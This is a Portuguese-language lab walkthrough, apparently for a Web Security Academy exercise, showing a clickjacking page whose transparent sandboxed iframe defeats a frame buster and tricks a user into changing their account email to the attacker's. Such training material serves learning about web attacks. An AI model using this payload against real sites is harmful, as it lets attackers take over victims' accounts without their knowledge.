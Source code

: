 No campo `Body` do `exploit server`, iremos colocar o seguinte código:

```html
    <style>
        iframe {
            position:relative;
            width:500px;
            height: 700px;
            opacity: 0.3;
            z-index: 2;
        }
        div {
            position:absolute;
            top:450;
            left:80;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe sandbox="allow-forms"
    src="https://0abc001d038ec2c4c20785150054003e.web-security-academy.net/my-account?email=sonael@sonaelneto.com"></iframe>

```

Seguindo o modelo dos laboratórios anteriores, o objetivo aqui é fazer com que a `div` fique sobre o botão `"Update email"`, e assim, quando o usuário clicar na div, o evento de clique será enviado para o botão `"Update email"`, induzindo o usuário a atualizar seu email.

Porém, nesse laboratório, teremos que usar:

```html

    <iframe sandbox="allow-forms"
    src="https://0abc001d038ec2c4c20785150054003e.web-security-academy.net/my-account?email=sonael@sonaelneto.com"></iframe>

```

para que o `iframe` não seja bloqueado pelo `frame buster script` que está presente no laboratório.

O `"sandbox='allow-forms'"` permite que o `iframe` tenha acesso ao formulário burlando o `frame buster script`, e assim, possa enviar o email do atacante para o campo de input `email`.


Utilizando o:

```css

    opacity: 0.3;

```

poderemos deixar o `iframe` transparente, para poder fazer os ajustes de forma que a div fique sobre o botão `"Update email"`. Então utilizando as propriedade `top` e `left`, iremos ajustar a posição da div para que ela fique sobre o botão.
